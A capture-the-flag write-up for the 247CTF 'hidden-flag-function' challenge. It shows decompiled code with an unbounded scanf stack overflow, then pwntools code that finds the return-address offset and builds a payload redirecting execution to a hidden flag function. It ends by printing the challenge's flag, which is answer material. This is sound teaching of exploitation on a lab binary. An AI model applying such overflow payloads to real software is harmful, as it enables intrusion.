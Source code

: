 # Hidden Flag Function

## Introduction

`hidden-flag-function` is a 125 point binary-exploitation challenge from
247CTF. The description states:

> Can you control this applications flow to gain access to the hidden flag
> function?

## Information Gathering

### Hint #1

Hints are for financial supporters of the site, so I don't have access.

### Vulnerability Mitigations

```shell
$ checksec ./hidden_flag_function
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

### Static Analysis

Opening the program in Binary Ninja, we see that `main` looks like the
following:

```c
int32_t main(int32_t argc, char** argv, char** envp) {
    void* const var_4 = __return_addr;
    int32_t* var_10 = &argc;
    setbuf(*(int32_t*)stdout, nullptr);
    puts("What do you have to say?");
    chall();
    return 0;
}

int32_t chall() {
    void loc;
    return __isoc99_scanf("%s", &loc);
}
```

As the name suggests, we also found a 'hidden' flag function called 'flag()':

```c
int32_t flag() {
    void buf;
    fgets(&buf, 0x40, fopen("flag.txt", "r"));
    return printf("How did you get here?\nHave a fl…", &buf);
}
```

From these three functions, we can gleam that the program asks for user input
via `scanf` and then returns. Given that we can control the input, we can
provide enough input that overflows the `loc` buffer on the `chall` stack frame
and overwrite the return address with the address of `flag()`. Let's test this
theory out by just trying to crash the program.

### Dynamic Analysis

Using the above strategy, we see that we can indeed crash the program with long
enough input:

```python
exe = ELF('./hidden_flag_function')
io = process([exe.path])
io.sendlineafter(b'What do you have to say?', cyclic(500))
io.recvall()
[*] Process 'hidden_flag_function' stopped with exit code -11 (SIGSEGV)
```

We can then get the corefile and see what the faulting address is to determine
the offset that overwrote the return address.

```python
core = io.corefile
cyclic_find(core.fault_addr) # yields 76.
```

Cool, so now all that is left is sending the address of the symbol `flag()` at
that offset and sending it to the program. It does not take any arguments, so
we don't have to worry about setting up the stack. We can do that with pwntools
like:

```python
payload = fit({
        76: p32(exe.symbols['flag'])
    })
```

## Solution

Sending the above gives us the flag:
`247CTF{b1c2cb7d5a43939f8dc73369ec2dd59d}`. Take a look at `solve.py` for the
whole thing in one script. The REMOTE flag probably won't work for you, as a
new container is made for each person each 24 hours.
